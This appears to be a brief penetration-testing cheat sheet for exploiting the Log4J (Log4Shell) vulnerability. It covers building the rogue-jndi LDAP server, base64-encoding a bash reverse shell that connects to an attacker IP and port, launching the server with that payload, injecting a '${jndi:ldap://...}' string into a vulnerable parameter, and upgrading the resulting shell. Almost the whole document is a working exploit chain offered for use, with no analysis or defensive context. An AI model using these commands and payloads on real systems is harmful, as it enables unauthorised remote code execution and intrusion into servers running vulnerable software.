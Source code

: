 # Log4J
## Introduction

## Requirements
```bash
apt update
apt install openjdk-11-jdk -y
apt-get install maven
mvn -v
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi  
mvn package
```

## Pass the payload

Use the rogue-jdni server to pass a payload. First base64 encode the reverse shell payload.
```bash
echo 'bash -c bash -i >&/dev/tcp/$IP/$PORT 0>&1' | base64
```
Then within the `rogue-jndi` directory.
```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo, $ENCODEDPAYLOAD} | {base64,-d}|{bash,-i}" --hostname "$IP"
```

Post response set "vulnerable parametre to:
Note: port 1389 is the rogue-jndi server
```json
{
	vuln:"${jndi:ldap://$IP:1389/o=tomcat}",
}
```
Upgrade th terminal shell:
```bash
script /dev/null -c bash
```
